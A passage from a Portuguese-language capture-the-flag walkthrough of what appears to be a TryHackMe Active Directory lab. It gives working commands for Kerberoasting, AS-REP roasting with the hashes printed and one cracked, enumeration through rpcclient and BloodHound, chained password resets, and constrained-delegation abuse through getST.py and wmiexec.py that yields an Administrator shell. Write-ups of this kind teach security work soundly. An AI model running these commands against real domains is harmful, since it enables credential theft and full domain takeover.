> `TrustedToAuthForDelegation = True`  
> Em outras palavras: “aceito que outros se passem por usuários aqui, desde que confiáveis”

#### O papel do `Get-DomainComputer -TrustedToAuth`
Esse comando serve para **descobrir quais computadores no domínio permitem que outros se autentiquem por usuários diferentes neles**.

#### Traduzindo:

> Você quer saber: “**Qual máquina aceita que minha `evilpc$` finja ser o `Administrator` para acessá-la?**”


### `Kerberoasting Reverso com SPN criado manualmente`

Primeiro, adicionei um `SPN` à conta `evilpc$`, o que permite realizar `auto-kerberoasting`.

> A necessidade de adicionar um `SPN` à conta porque o **Kerberoasting só funciona em contas com SPNs registrados** — isso faz com que o KDC gere um **ticket de serviço (TGS)** que é **criptografado com o hash da senha da conta alvo**.


`SetSPN -A HTTP/evilpc.thm.corp evilpc$`


Agora, no lado do atacante
`GetUserSPNs.py thm.corp/evilpc\$:'EvilPc$00' -dc-ip 10.10.71.169`


> Essas contas estão associadas a **serviços no domínio** (ex: `CIFS`, `MSSQL`, `POP3`, `HTTPS`, etc). Como elas têm SPNs registrados, você pode:

`GetUserSPNs.py -request thm.corp/evilpc\$:'EvilPc$00' -dc-ip 10.10.71.169`


Com isso, salvei tudo em um `.txt` e, na minha máquina, iniciei a quebra com o Hashcat usando o comando:

`hashcat -m 13100 spn_hash.txt /home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt --force`

porém, não obtive sucesso."

### `RPCClient`
```
O rpcclient é uma ferramenta da suíte Samba usada para interagir com serviços RPC (Remote Procedure Call) em máquinas Windows.
Ela permite que você:
	Enumere usuários, grupos, políticas e compartilhamentos
	Obtenha informações do Active Directory
	Faça tudo isso usando apenas credenciais válidas, mesmo com baixos privilégios
Muito útil em enumeração pós-comprometimento, especialmente em ambientes AD.
```

Uma das tentativas foi utilizar o `rpcclient` para obter informações adicionais, com o seguinte comando:

`rpcclient -U 'thm.corp/evilpc$%EvilPc$00' 10.10.71.169`

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[3091731410SA] rid:[0x457]
user:[ERNESTO_SILVA] rid:[0x458]
.
.
.
user:[LEANN_LONG] rid:[0x47d]
user:[RAQUEL_BENSON] rid:[0x47e]
user:[AUTOMATE] rid:[0x484]
```

Ao executar o `enumdomusers`, foram listados diversos usuários do domínio.

Com o `rpcclient`, seria possível enumerar outras informações, mas optei por coletar apenas os nomes de usuários para aplicar a técnica de `AS-REP Roasting`.

### `AS-REP Roasting`
Com os nomes extraídos anteriormente, realizei uma espécie de força bruta em busca de contas que não exigem pré-autenticação

`GetNPUsers.py thm.corp/ -usersfile users.txt -no-pass -dc-ip 10.10.71.169`

Com isso, identifiquei duas contas vulneráveis.
```
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:36a3aaf58671f665a87d42c91006b706$7ac0b2ca9edf85d51dba4ab7a0f4d623749933a3dba9a82de9a0364ce7b416ef71701952fc8573fa2ed2cbd1dfeb062628e1099465e72059901cfc7888fae6ae18b97dceb40152e757ee514b34597ee5d1d15e171efbfc0188d7e2a6c046161b9da43587cb1d2555a5e099025a81a7d78e24e3a347d1b5f7665df5bff43fd3ae4e68d1f3d693031958598f94d32af3b2718504f4d2d20b505114e62ce6bae8ed4f8e0852b3ee3089176eea2a6ae858806983569846eafd4755f5998461c3ebeddfd06951126e6ded4c9cd9172cd7b1247c73869b417f2ca66bff5d720f528e0868d93ade

$krb5asrep$23$TABATHA_BRITT@THM.CORP:c413df44017d8e4647434095b1665322$d3ad023605cb2cc766f23dcaf79aae3f90b5658bcdd587dfa54451d8a3f5a6453c1768d3d70349e18028dce48134657c91e365db896f8379eae88b7c6fd4132fd903f26a587ca06821b5be7d1325f0192735b2ea0d542fc3968a46f25719513e64e5d33d9a3b6eed433be2321fbdb096d929043c15a0461d85863ce3b6f25e272310c17fb54539c4b08513fc749436a5a368ef91e863c91e139ca9f6311b506b81edbbffc91ef463bad5ecf952c0fe286368e2ff99ef55dc64767028bc3a355cca28d2e60362bd27ae8616f86e6e7ff46513952456216f873dd78793231ec854b812890f
```

Utilizei o Hashcat para realizar a quebra dos hashes obtidos.
`hashcat -m 18200 spn_hash.txt /home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt --force`

> [!Credenciais]
> `$`krb5asrep$23$TABATHA_BRITT@THM.CORP:c413d......4b812890f:marlboro(1985)


Com a quebra do hash, foi possível verificar os acessos via SMB e, de fato, conseguimos autenticar com a usuária `TABATHA_BRITT`.


## Usuário: `TABATHA_BRITT`

### Obtendo informações

Listando as pastas que a usuário tem permissão


Então com o usuário  `AUTOMATE` eu comecei listar as permissões que a `TABATHA_BRITT` tinha
`Get-ADUser -Identity TABATHA_BRITT -Properties *`

```
AccountExpirationDate                :
accountExpires                       : 0
AccountLockoutTime                   :
AccountNotDelegated                  : False
AllowReversiblePasswordEncryption    : False
AuthenticationPolicy                 : {}
AuthenticationPolicySilo             : {}
BadLogonCount                        : 0
badPasswordTime                      : 133917169612790783
badPwdCount                          : 0
CannotChangePassword                 : False
CanonicalName                        : thm.corp/Users/TABATHA_BRITT
Certificates                         : {}
City                                 :
CN                                   : TABATHA_BRITT
codePage                             : 0
Company                              :
CompoundIdentitySupported            : {}
Country                              :
countryCode                          : 0
Created                              : 6/12/2023 4:05:56 PM
createTimeStamp                      : 6/12/2023 4:05:56 PM
Deleted                              :
Department                           :
Description                          :
DisplayName                          : TABATHA_BRITT
DistinguishedName                    : CN=TABATHA_BRITT,CN=Users,DC=thm,DC=corp
Division                             :
DoesNotRequirePreAuth                : True
dSCorePropagationData                : {6/16/2023 1:29:43 PM, 6/16/2023 12:26:58 PM, 6/13/2023 1:49:29 PM, 6/12/2023 4:06:06 PM...}
EmailAddress                         :
EmployeeID                           :
EmployeeNumber                       :
Enabled                              : True
Fax                                  :
GivenName                            :
HomeDirectory                        :
HomedirRequired                      : False
HomeDrive                            :
HomePage                             :
HomePhone                            :
Initials                             :
instanceType                         : 4
isDeleted                            :
KerberosEncryptionType               : {}
LastBadPasswordAttempt               : 5/14/2025 5:22:41 PM
LastKnownParent                      :
lastLogoff                           : 0
lastLogon                            : 133917170093737156
LastLogonDate                        : 5/14/2025 5:17:07 PM
lastLogonTimestamp                   : 133917166270097581
LockedOut                            : False
logonCount                           : 6
logonHours                           : {255, 255, 255, 255...}
LogonWorkstations                    :
Manager                              :
MemberOf                             : {CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp, CN=AN-173-distlist1,OU=GOO,OU=People,DC=thm,DC=corp, CN=Terminal Server License Servers,CN=Builtin,DC=thm,DC=corp, CN=Windows Authorization Access
                                       Group,CN=Builtin,DC=thm,DC=corp...}
MNSLogonAccount                      : False
MobilePhone                          :
Modified                             : 5/14/2025 5:17:07 PM
modifyTimeStamp                      : 5/14/2025 5:17:07 PM
msDS-User-Account-Control-Computed   : 0
Name                                 : TABATHA_BRITT
nTSecurityDescriptor                 : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                       : CN=Person,CN=Schema,CN=Configuration,DC=thm,DC=corp
ObjectClass                          : user
ObjectGUID                           : 2d912e24-543b-49d5-a6e2-323b5377a791
objectSid                            : S-1-5-21-1966530601-3185510712-10604624-1131
Office                               :
OfficePhone                          :
Organization                         :
OtherName                            :
PasswordExpired                      : False
PasswordLastSet                      : 8/21/2023 8:32:59 PM
PasswordNeverExpires                 : True
PasswordNotRequired                  : False
POBox                                :
PostalCode                           :
PrimaryGroup                         : CN=Domain Users,CN=Users,DC=thm,DC=corp
primaryGroupID                       : 513
PrincipalsAllowedToDelegateToAccount : {}
ProfilePath                          :
ProtectedFromAccidentalDeletion      : False
pwdLastSet                           : 133371235795713062
SamAccountName                       : TABATHA_BRITT
sAMAccountType                       : 805306368
ScriptPath                           :
sDRightsEffective                    : 0
ServicePrincipalNames                : {}
SID                                  : S-1-5-21-1966530601-3185510712-10604624-1131
SIDHistory                           : {}
SmartcardLogonRequired               : False
sn                                   : TABATHA_BRITT
State                                :
StreetAddress                        :
Surname                              : TABATHA_BRITT
Title                                :
TrustedForDelegation                 : False
TrustedToAuthForDelegation           : False
UseDESKeyOnly                        : False
userAccountControl                   : 4260352
userCertificate                      : {}
UserPrincipalName                    : TABATHA_BRITT@thm.corp
uSNChanged                           : 159839
uSNCreated                           : 13477
whenChanged                          : 5/14/2025 5:17:07 PM
whenCreated                          : 6/12/2023 4:05:56 PM
```

Não mostrou muita coisa relevante. Então partimos para os grupos que ela faz parte
`net user TABATHA_BRITT /domain`
```
User name                    TABATHA_BRITT
Full Name                    TABATHA_BRITT
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/21/2023 8:32:59 PM
Password expires             Never
Password changeable          8/22/2023 8:32:59 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/14/2025 5:23:29 PM

Logon hours allowed          All

Local Group Memberships      *RAS and IAS Servers  *Remote Desktop Users
                             *Terminal Server Licen*Windows Authorization
Global Group memberships     *AN-173-distlist1     *Gu-gerardway-distlist
                             *Domain Users
The command completed successfully.
```

Uma informação crucial se mostrou para mim, ela está no grupo do "Remote Desktop Users", ou seja, temos aceso ao RDP



### `BloodHound` mais uma vez

Caçando eu acabei encontrando uma alternativa do `bloodhound` que estava tentando usar no inicio.

`python3 bloodhound.py -ns 10.10.103.187 --dns-tcp -d THM.CORP -u 'TABATHA_BRITT' -p 'marlboro(1985)' -c All --zip`

Procurando por pontos interessantes eu acabei fazendo um caminho da `TABATHA_BRITT` -> `DARLA_WINTERS`


1. `TABATHA_BRITT` tem `GenericAll` sobre `SHAWNA_BRAY`
	1. Tenho controle total sobre o objeto, incluindo
		1. Resetar a senha de `SHAWWNA`
		2. Autenticar como ela
2. `SHAWNA_BRAY` pode resetar a senha de `CRUZ_HALL`
		1. Igual o caso acima
3. `CRUZ_HALL` pode:
		1. Trocar a senha da `DARLA_WINTERS`
		2. Tem `GenericWrite` e `owns` sobre ela
		3. Pode-se redefinir a senha de `DARLA` ou até modificar atributos como SPNs (se aplicável)

### Trocando a senha de outras contas

Processo de troca de senha pode ser feito pelo `Powershell` (Com algum módulo ou nativo) e pelo RPC

`net user SHAWNA_BRAY NovaSenha123! /domain`


## Usuário: `SHAWNA_BRAY`

Entro via RPC
`rpcclient -U 'THM\SHAWNA_BRAY%NovaSenha123!' 10.10.103.187`

Altero a senha do Cruz_hall. Aqui está acontecendo uma espécie de Pivoting, devido estar pulando de usuário em usuário.
`setuserinfo2 CRUZ_HALL 23 "NovaSenha123!"`

## Usuário: `CRUZ_HALL`

Entro via RPC
`rpcclient -U 'THM\CRUZ_HALL%NovaSenha123!' 10.10.103.187`

`setuserinfo2 DARLA_WINTERS 23 "NovaSenha123!"`


# Escalação de Privilégios por meio da usuário `DARLA_WINTERS`

Checando o usuário pelo BloodHound, da para ver que o usuário está ativo para executar `constrained delegation`

> [!O que é Constrained Delegation]
> A delegação restrita permite que **um serviço autenticado em nome de um usuário se passe por esse usuário para acessar _outros serviços específicos_**.
> 
> > Em termos simples:  
> > Darla pode dizer ao AD:  
> > “Oi, o `usuário X` se autenticou comigo. Eu quero agir em nome dele no serviço **CIFS** da máquina **HAYSTACK**”.
> 
> Mas só funciona **para os SPNs permitidos** (no caso, `cifs/haystack.thm.corp`).




A conta `DARLA_WINTERS` está **configurada com delegação restrita** para os seguintes `SPNs`:
- `cifs/HAYSTACK``
- `cifs/haystack.thm.corp`
Isso significa que **Darla pode agir em nome de qualquer usuário**, inclusive o **Administrador**, **para o serviço CIFS na máquina HAYSTACK** (ex: compartilhamento de arquivos ou execução remota via WMI).

> [!CIFS > Commom Internet File System]
> - É o **serviço de compartilhamento de arquivos** usado no Windows.
> - Funciona sobre o protocolo **SMB** (Server Message Block).
> - Permite que usuários **acessem pastas, arquivos e impressoras** em outros computadores pela rede.
> - Usa **Kerberos ou NTLM** para autenticação.
> - O **SPN `cifs/hostname`** representa esse serviço no Active Directory.
> - Em ataques de **delegação (como Constrained Delegation)**, o CIFS pode ser usado para **se passar por outro usuário** e acessar compartilhamentos remotos.

### Como funciona o ataque

#### Entendendo os Tickets
##### `TGT (Ticket Granting Ticket)`
- É o **primeiro ticket** que você recebe ao se autenticar no domínio.
- Serve como **prova de que você é você**.
- É emitido pelo **KDC (Key Distribution Center)** e permite **pedir acesso a outros serviços**
- Funciona como um “**passe de entrada**” para o mundo do Kerberos.
> 📌 “Eu sou o Arthur. Aqui está meu TGT. Agora quero acessar o serviço X.”


##### `TGS (Ticket Granting Service Ticket)`
- É o **ticket que dá acesso real a um serviço específico**, como:
    - `CIFS` (compartilhamento de arquivos)
    - `HTTP` (web)
    - `MSSQLSvc` (SQL Server)
- Você usa seu **TGT para pedir um TGS** ao KDC.
> 📌 “Com meu TGT, peço ao domínio: quero um TGS para acessar o compartilhamento `cifs/haystack`.”


#### Etapa 1 - Gerar um TGS falso como se fosse o `administrator`
Usando o script `getST.py`, que faz:
1. Solicita um TGT legítimo da `darla`
2. Solicita ao DC:
	1. Um ticket dizendo "Darla quer agir como Administrador"
	2. E esse ticket será válido **somente para o serviço CIFS da máquina `HAYSTACK`**


`python3 getST.py -spn "cifs/haystack.thm.corp" -impersonate Administrator thm.corp/DARLA_WINTERS:NovaSenha123!`

Esse comando vai gerar um ticket Kerberos **TGS** que permite Darla **agir como se fosse o Administrador** para acessar o serviço `cifs` de `haystack`.

O ticket será salvo como `Administrator.ccache`.

```
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

#### Etapa 2 - Exportar o ticket para o ambiente

O Kerberos no Linux usa uma variável chamada `KRB5CCNAME` para saber **qual ticket usar**.

`export KRB5CCNAME=Administrator.ccache`

Isso diz ao sistema:

> "Use o ticket `Administrator.ccache` para autenticar as próximas conexões Kerberos."

#### Etapa 3 - Obtendo o shell como `administrator`

Agora é apenas usar `wmiexec.py` (Impacket) para abrir uma shell remota com o ticket que representa o Administrador

`python3 wmiexec.py -k -no-pass Administrator@haystack.thm.corp`

- `-k` -> diz para usar Kerberos
- `-no-pass` -> não tenta autenticar com senha (usa só o ticket)

Com isso a shell do administrador é obtida.